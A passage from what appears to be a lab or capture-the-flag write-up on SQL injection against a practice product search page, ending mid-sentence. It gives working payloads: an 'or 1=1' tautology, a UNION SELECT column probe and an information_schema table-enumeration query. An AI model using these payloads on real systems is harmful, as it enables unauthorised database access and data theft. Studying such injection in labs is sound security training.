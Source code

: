 We have 2 ways to do this :D

Manually using the **UNION SELECT** query or using `sqlmap`

***

We are giving a product page with the search functionality

![](https://i.imgur.com/TD2Rqgp.png)



Using this query in the search bar - `senpai' or 1=1#` we got back all the lists of product

![](https://i.imgur.com/UdjhrTL.jpg)


we can then advance our query by using **UNION SELECT**, like we said in the past modules, keep adding `null` till something clicks, this time we needed 4 nulls

```
senpai' union select null,null,null,null#
```


![](https://i.imgur.com/e2H7jSI.png)



We can then attempt to get all tables from this database by using the query as shown below

```
senpai' union select null,null,null,table_name from information_schema.tables#
```


![](https://i.imgur.com/GOQJ3Er.png)


Searching for **injection0x03** gives us a `_users` and `_products` table 
 
![](https://i.imgur.com/mxIbLRO.png)


We ca



